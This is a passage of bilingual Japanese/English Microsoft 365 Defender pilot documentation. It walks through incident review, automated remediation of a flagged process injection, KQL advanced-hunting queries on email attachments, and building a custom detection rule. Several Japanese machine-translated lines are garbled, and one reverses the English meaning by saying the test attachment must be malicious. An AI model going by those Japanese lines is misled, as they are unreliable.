<span data-ttu-id="1d201-224">攻撃が行われたデバイスの名前を選択して、その特定のデバイスのエンティティ ページを開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="1d201-225">そのページで、トリガーされたアラートと関連イベントを確認できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="1d201-226">[タイムライン **] タブ** を選択して、デバイスのタイムラインを開き、発生したアラートと一緒にデバイスで観察されたイベントと動作を時系列順に表示します。</span><span class="sxs-lookup"><span data-stu-id="1d201-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="1d201-228">より興味深い動作の一部を展開すると、プロセス ツリーなどの有用な詳細が提供されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="1d201-229">たとえば、警告イベント [疑わしいプロセスの挿入が観察されるまで **下にスクロールします**。</span><span class="sxs-lookup"><span data-stu-id="1d201-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="1d201-230">その下 **powershell.exe** プロセス notepad.exeに挿入するイベントを選択し、この動作の完全なプロセス ツリーをサイド ウィンドウの **[イベント** エンティティ] グラフに表示します。</span><span class="sxs-lookup"><span data-stu-id="1d201-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="1d201-231">必要に応じて、検索バーを使用してフィルター処理を行います。</span><span class="sxs-lookup"><span data-stu-id="1d201-231">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="1d201-233">ユーザー情報を確認する [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="1d201-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="1d201-234">インシデント ページで、[ユーザー] **タブを** 選択して、攻撃に関与するユーザーの一覧を表示します。</span><span class="sxs-lookup"><span data-stu-id="1d201-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="1d201-235">この表には、各ユーザーの調査優先度スコアを含む、各ユーザーに関する **追加情報が含** まれている。</span><span class="sxs-lookup"><span data-stu-id="1d201-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="1d201-236">ユーザー名を選択して、ユーザーのプロファイル ページを開き、詳細な調査を行います。</span><span class="sxs-lookup"><span data-stu-id="1d201-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="1d201-237">[リスクの高いユーザーの調査について詳しくは、以下の記事を参照してください](/cloud-app-security/tutorial-ueba#identify)。</span><span class="sxs-lookup"><span data-stu-id="1d201-237">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="1d201-239">調査と修復の自動化</span><span class="sxs-lookup"><span data-stu-id="1d201-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="1d201-240">このシミュレーションを実行する前に、次のビデオを見て、自動自己修復とは何か、ポータルでどこで見つけるか、セキュリティ操作でどのように役立つのかを理解してください。</span><span class="sxs-lookup"><span data-stu-id="1d201-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="1d201-241">セキュリティ センター ポータルでインシデントMicrosoft 365戻します。</span><span class="sxs-lookup"><span data-stu-id="1d201-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="1d201-242">[**インシデント] ページの\*\*\*\*[調査**] タブには、Microsoft Defender for Identity と Microsoft Defender for Endpoint によってトリガーされた自動調査が表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="1d201-243">次のスクリーンショットは、Defender for Endpoint によってトリガーされた自動調査のみを表示します。</span><span class="sxs-lookup"><span data-stu-id="1d201-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="1d201-244">既定では、Defender for Endpoint はキュー内にあるアーティファクトを自動的に修復します。修復が必要です。</span><span class="sxs-lookup"><span data-stu-id="1d201-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="1d201-246">調査をトリガーしたアラートを選択して、[調査の詳細] **ページを開** きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="1d201-247">次の詳細が表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-247">You'll see the following details:</span></span>

- <span data-ttu-id="1d201-248">自動調査をトリガーしたアラート。</span><span class="sxs-lookup"><span data-stu-id="1d201-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="1d201-249">影響を受け取ったユーザーとデバイス。</span><span class="sxs-lookup"><span data-stu-id="1d201-249">Impacted users and devices.</span></span> <span data-ttu-id="1d201-250">追加のデバイスでインジケーターが見つかった場合は、これらの追加のデバイスも一覧表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="1d201-251">証拠の一覧。</span><span class="sxs-lookup"><span data-stu-id="1d201-251">List of evidence.</span></span> <span data-ttu-id="1d201-252">ファイル、プロセス、サービス、ドライバー、ネットワーク アドレスなど、検出および分析されたエンティティ。</span><span class="sxs-lookup"><span data-stu-id="1d201-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="1d201-253">これらのエンティティは、アラートに対して考えられる関係について分析され、良性または悪意のあると評価されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="1d201-254">脅威が見つかりました。</span><span class="sxs-lookup"><span data-stu-id="1d201-254">Threats found.</span></span> <span data-ttu-id="1d201-255">調査中に検出された既知の脅威。</span><span class="sxs-lookup"><span data-stu-id="1d201-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-256">タイミングによっては、自動調査がまだ実行されている可能性があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="1d201-257">証拠を収集して分析し、結果を確認する前に、プロセスが完了するまで数分待ちます。</span><span class="sxs-lookup"><span data-stu-id="1d201-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="1d201-258">[調査の **詳細] ページを** 更新して、最新の結果を取得します。</span><span class="sxs-lookup"><span data-stu-id="1d201-258">Refresh the **Investigation details** page to get the latest findings.</span></span>

![[調査の詳細] ページのスクリーンショット](../../media/mtp/fig15.png)

<span data-ttu-id="1d201-260">自動化された調査の間、Microsoft Defender for Endpoint は修復が必要な成果物の 1 notepad.exeプロセスを特定しました。</span><span class="sxs-lookup"><span data-stu-id="1d201-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="1d201-261">Defender for Endpoint は、自動修復の一環として疑わしいプロセスの挿入を自動的に停止します。</span><span class="sxs-lookup"><span data-stu-id="1d201-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="1d201-262">テスト デバイス上 <i>notepad.exe</i> プロセスの一覧から表示されなくなります。</span><span class="sxs-lookup"><span data-stu-id="1d201-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="1d201-263">インシデントを解決する</span><span class="sxs-lookup"><span data-stu-id="1d201-263">Resolve the incident</span></span>

<span data-ttu-id="1d201-264">調査が完了し、修復が確認された後、インシデントを閉じます。</span><span class="sxs-lookup"><span data-stu-id="1d201-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="1d201-265">[インシデント **の管理] を選択します**。</span><span class="sxs-lookup"><span data-stu-id="1d201-265">Select **Manage incident**.</span></span> <span data-ttu-id="1d201-266">状態を [インシデントの解決 **] に設定し** 、関連する分類を選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="1d201-267">インシデントが解決すると、セキュリティ センターと関連するポータルMicrosoft 365関連付けられているすべてのアラートが閉じます。</span><span class="sxs-lookup"><span data-stu-id="1d201-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>

![[インシデントの管理] パネルを開いたインシデント ページのスクリーンショットで、スイッチをクリックしてインシデントを解決できます。](../../media/mtp/fig16.png)

<span data-ttu-id="1d201-269">これにより、インシデント管理と自動調査と修復シナリオの攻撃シミュレーションがラップされます。</span><span class="sxs-lookup"><span data-stu-id="1d201-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="1d201-270">次のシミュレーションでは、潜在的に悪意のあるファイルに対する予防的な脅威の検出を実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="1d201-271">高度なハンティング シナリオ</span><span class="sxs-lookup"><span data-stu-id="1d201-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-272">シミュレーションを実行する前に、次のビデオを見て高度な狩猟の概念を理解し、ポータルで検索できる場所を確認し、セキュリティ操作でどのように役立つのか確認してください。</span><span class="sxs-lookup"><span data-stu-id="1d201-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="1d201-273">ハンティング環境の要件</span><span class="sxs-lookup"><span data-stu-id="1d201-273">Hunting environment requirements</span></span>

<span data-ttu-id="1d201-274">このシナリオでは、1 つの内部メールボックスとデバイスが必要です。</span><span class="sxs-lookup"><span data-stu-id="1d201-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="1d201-275">テスト メッセージを送信するには、外部メール アカウントも必要です。</span><span class="sxs-lookup"><span data-stu-id="1d201-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="1d201-276">テナントが有効[になっているMicrosoft 365 Defender。](m365d-enable.md#confirm-that-the-service-is-on)</span><span class="sxs-lookup"><span data-stu-id="1d201-276">Verify that your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>
2. <span data-ttu-id="1d201-277">電子メールの受信に使用するターゲット メールボックスを特定します。</span><span class="sxs-lookup"><span data-stu-id="1d201-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="1d201-278">a.</span><span class="sxs-lookup"><span data-stu-id="1d201-278">a.</span></span> <span data-ttu-id="1d201-279">このメールボックスは、Microsoft Defender によって監視され、Office 365必要があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="1d201-280">要件 3 のデバイスは、このメールボックスにアクセスする必要があります</span><span class="sxs-lookup"><span data-stu-id="1d201-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="1d201-281">テスト デバイスを構成します。a.</span><span class="sxs-lookup"><span data-stu-id="1d201-281">Configure a test device: a.</span></span> <span data-ttu-id="1d201-282">バージョン 1903 以降Windows 10を使用してください。</span><span class="sxs-lookup"><span data-stu-id="1d201-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="1d201-283">b.</span><span class="sxs-lookup"><span data-stu-id="1d201-283">b.</span></span> <span data-ttu-id="1d201-284">テスト デバイスをテスト ドメインに参加します。</span><span class="sxs-lookup"><span data-stu-id="1d201-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="1d201-285">c.</span><span class="sxs-lookup"><span data-stu-id="1d201-285">c.</span></span> <span data-ttu-id="1d201-286">[[オンにする] をWindows Defender ウイルス対策](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)します。</span><span class="sxs-lookup"><span data-stu-id="1d201-286">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1d201-287">問題が発生した場合は、このトラブルシューティング Windows Defender ウイルス対策を[参照してください](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="1d201-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="1d201-288">d.</span><span class="sxs-lookup"><span data-stu-id="1d201-288">d.</span></span> <span data-ttu-id="1d201-289">[エンドポイント用 Microsoft Defender にオンボードします](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。</span><span class="sxs-lookup"><span data-stu-id="1d201-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="1d201-290">シミュレーションを実行する</span><span class="sxs-lookup"><span data-stu-id="1d201-290">Run the simulation</span></span>

1. <span data-ttu-id="1d201-291">外部メール アカウントから、テスト環境の要件セクションの手順 2 で識別されたメールボックスに電子メールを送信します。</span><span class="sxs-lookup"><span data-stu-id="1d201-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="1d201-292">既存の電子メール フィルター ポリシーで許可される添付ファイルを含める。</span><span class="sxs-lookup"><span data-stu-id="1d201-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="1d201-293">このファイルは、悪意のあるファイルや実行可能ファイルである必要があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="1d201-294">推奨されるファイルの種類は<i>、.pdf、.exe</i> <i>(許可</i>されている場合)、または Word ファイルなどのOfficeドキュメントです。</span><span class="sxs-lookup"><span data-stu-id="1d201-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="1d201-295">テスト環境の要件セクションの手順 3 で定義されているデバイスから送信された電子メールを開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="1d201-296">添付ファイルを開くか、ファイルをデバイスに保存します。</span><span class="sxs-lookup"><span data-stu-id="1d201-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="1d201-297">Go hunting</span><span class="sxs-lookup"><span data-stu-id="1d201-297">Go hunting</span></span>

1. <span data-ttu-id="1d201-298">ポータルを開 security.microsoft.com します。</span><span class="sxs-lookup"><span data-stu-id="1d201-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="1d201-299">[ハンティング と **高度な>に移動します**。</span><span class="sxs-lookup"><span data-stu-id="1d201-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="1d201-301">電子メール イベントの収集から始まるクエリを作成します。</span><span class="sxs-lookup"><span data-stu-id="1d201-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="1d201-302">クエリ ウィンドウで、[新規] を選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="1d201-303">スキーマから EmailEvents テーブルをダブルクリックします。</span><span class="sxs-lookup"><span data-stu-id="1d201-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="1d201-304">時間枠を過去 24 時間に変更します。</span><span class="sxs-lookup"><span data-stu-id="1d201-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="1d201-305">上記のシミュレーションを実行した際に送信したメールが過去 24 時間だったと仮定し、それ以外の場合は時間枠を変更します。</span><span class="sxs-lookup"><span data-stu-id="1d201-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="1d201-308">クエリを実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-308">Run the query.</span></span> <span data-ttu-id="1d201-309">パイロットの環境によっては、多くの結果が得られます。</span><span class="sxs-lookup"><span data-stu-id="1d201-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="1d201-310">データの取得を制限するオプションのフィルター処理については、次の手順を参照してください。</span><span class="sxs-lookup"><span data-stu-id="1d201-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="1d201-312">高度な検索では、クエリ結果が表形式のデータとして表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="1d201-313">グラフなどの他の形式のデータを表示することもできます。</span><span class="sxs-lookup"><span data-stu-id="1d201-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="1d201-314">結果を確認し、開いたメールを識別できる場合を確認します。</span><span class="sxs-lookup"><span data-stu-id="1d201-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="1d201-315">高度な検索でメッセージが表示されるには、最大で 2 時間かかる場合があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="1d201-316">電子メール環境が大きく、結果が多い場合は、[フィルターの表示]オプションを使用してメッセージを見つける必要があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="1d201-317">サンプルでは、メールが Yahoo アカウントから送信されました。</span><span class="sxs-lookup"><span data-stu-id="1d201-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="1d201-318">**+**[SenderFromDomain]**セクション** yahoo.com 横にあるアイコンをクリックし、[適用] をクリックして、選択したドメインをクエリに追加します。</span><span class="sxs-lookup"><span data-stu-id="1d201-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="1d201-319">[シミュレーションの実行] の手順 1 のテスト メッセージの送信に使用されたドメインまたは電子メール アカウントを使用して、結果をフィルター処理します。</span><span class="sxs-lookup"><span data-stu-id="1d201-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="1d201-320">クエリを再度実行して、より小さい結果セットを取得して、シミュレーションからのメッセージが表示されるのを確認します。</span><span class="sxs-lookup"><span data-stu-id="1d201-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="1d201-323">クエリの結果の行をクリックして、レコードを検査できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="1d201-325">メールが表示されるのを確認したので、添付ファイルのフィルターを追加します。</span><span class="sxs-lookup"><span data-stu-id="1d201-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="1d201-326">環境内の添付ファイルを含むすべてのメールに焦点を当てる。</span><span class="sxs-lookup"><span data-stu-id="1d201-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="1d201-327">このシナリオでは、環境から送信されるメールではなく、受信メールに重点を置きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="1d201-328">追加したフィルターを削除して、メッセージを見つけて "メッセージ" を追加|AttachmentCount **> 0** と **EmailDirection**  ==  **"Inbound""**</span><span class="sxs-lookup"><span data-stu-id="1d201-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="1d201-329">次のクエリは、すべての電子メール イベントに対する最初のクエリよりも短いリストを持つ結果を表示します。</span><span class="sxs-lookup"><span data-stu-id="1d201-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. <span data-ttu-id="1d201-330">次に、添付ファイルに関する情報 (ファイル名、ハッシュなど) を結果セットに含める。</span><span class="sxs-lookup"><span data-stu-id="1d201-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="1d201-331">これを行うには **、EmailAttachmentInfo テーブルに参加** します。</span><span class="sxs-lookup"><span data-stu-id="1d201-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="1d201-332">参加に使用する一般的なフィールドは **、NetworkMessageId** と **RecipientObjectId です**。</span><span class="sxs-lookup"><span data-stu-id="1d201-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="1d201-333">次のクエリには、追加の行 "| **project-rename EmailTimestamp=Timestamp**" は、次の手順で追加するファイルアクションに関連するタイムスタンプとメールに関連したタイムスタンプを識別するのに役立ちます。</span><span class="sxs-lookup"><span data-stu-id="1d201-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="1d201-334">次に **、EmailAttachmentInfo** テーブルの **SHA256** 値を使用して、そのハッシュの **DeviceFileEvents** (エンドポイントで発生したファイル アクション) を検索します。</span><span class="sxs-lookup"><span data-stu-id="1d201-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="1d201-335">ここでの共通フィールドは、添付ファイルの SHA256 ハッシュです。</span><span class="sxs-lookup"><span data-stu-id="1d201-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="1d201-336">結果の表には、エンドポイント (Microsoft Defender for Endpoint) の詳細 (デバイス名、実行されたアクション (この場合は FileCreated イベントのみを含むフィルター処理)、ファイルが格納された場所が含まれます。</span><span class="sxs-lookup"><span data-stu-id="1d201-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="1d201-337">プロセスに関連付けられたアカウント名も含まれます。</span><span class="sxs-lookup"><span data-stu-id="1d201-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="1d201-338">これで、ユーザーが添付ファイルを開いた、または保存した受信メールを識別するクエリを作成しました。</span><span class="sxs-lookup"><span data-stu-id="1d201-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="1d201-339">このクエリを絞り込み、特定の送信者ドメイン、ファイル サイズ、ファイルの種類などについてフィルター処理することもできます。</span><span class="sxs-lookup"><span data-stu-id="1d201-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="1d201-340">関数は、有病率、署名者、発行者情報などのファイルに関するより多くの TI データを取得できる、特別な種類の結合です。ファイルの詳細を取得するには **、FileProfile() 関数エンリッチメントを** 使用します。</span><span class="sxs-lookup"><span data-stu-id="1d201-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="1d201-341">検出を作成する</span><span class="sxs-lookup"><span data-stu-id="1d201-341">Create a detection</span></span>

<span data-ttu-id="1d201-342">将来発生した場合に通知を受け取る情報を識別するクエリを作成したら、クエリからカスタム検出を作成できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="1d201-343">カスタム検出では、設定した頻度に従ってクエリが実行され、クエリの結果によって、選択した影響を受け取ったアセットに基づいてセキュリティアラートが作成されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="1d201-344">これらのアラートはインシデントに関連付け、製品の 1 つによって生成される他のセキュリティ アラートとしてトリアージできます。</span><span class="sxs-lookup"><span data-stu-id="1d201-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="1d201-345">クエリ ページで、Go ハンティング手順の手順 7 で追加された行 7 と 8 を削除し、[検出ルールの作成] **をクリックします**。</span><span class="sxs-lookup"><span data-stu-id="1d201-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   ![高度な検索ページで [検出ルールの作成] をクリックできる場所のスクリーンショット](../../media/mtp/fig22.png)

   > [!NOTE]
   > <span data-ttu-id="1d201-347">[検出ルール **の作成] を** クリックし、クエリに構文エラーがある場合、検出ルールは保存されません。</span><span class="sxs-lookup"><span data-stu-id="1d201-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="1d201-348">クエリをダブルクリックして、エラーがないか確認します。</span><span class="sxs-lookup"><span data-stu-id="1d201-348">Double-check your query to ensure there's no errors.</span></span>

2. <span data-ttu-id="1d201-349">必要なフィールドに、セキュリティ チームがアラートを理解できる情報、アラートが生成された理由、および必要なアクションを入力します。</span><span class="sxs-lookup"><span data-stu-id="1d201-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   

   <span data-ttu-id="1d201-351">この検出ルールアラートに関する情報に基づいた決定を次のユーザーに提供するために、フィールドに明確な情報を入力してください。</span><span class="sxs-lookup"><span data-stu-id="1d201-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="1d201-352">このアラートで影響を受け取るエンティティを選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="1d201-353">この場合、[デバイスとメールボックス **] を\*\*\*\*選択します**。</span><span class="sxs-lookup"><span data-stu-id="1d201-353">In this case, select **Device** and **Mailbox**.</span></span>

   

4. <span data-ttu-id="1d201-355">アラートがトリガーされた場合に実行するアクションを決定します。</span><span class="sxs-lookup"><span data-stu-id="1d201-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="1d201-356">この場合、ウイルス対策スキャンを実行しますが、他の操作を実行できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   

5. <span data-ttu-id="1d201-358">アラート ルールのスコープを選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="1d201-359">このクエリにはデバイスが含まれるので、デバイス グループは Microsoft Defender for Endpoint コンテキストに従って、このカスタム検出に関連します。</span><span class="sxs-lookup"><span data-stu-id="1d201-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="1d201-360">影響を受け取ったエンティティとしてデバイスを含めないカスタム検出を作成する場合、スコープは適用されません。</span><span class="sxs-lookup"><span data-stu-id="1d201-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   

   <span data-ttu-id="1d201-362">このパイロットの場合は、このルールを実稼働環境のテスト デバイスのサブセットに制限できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="1d201-363">[**作成**] を選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-363">Select **Create**.</span></span> <span data-ttu-id="1d201-364">次に、ナビゲーション **パネルから [カスタム** 検出ルール] を選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   ![メニューの [カスタム検出ルール] オプションのスクリーンショット](../../media/mtp/fig27a.png)

   

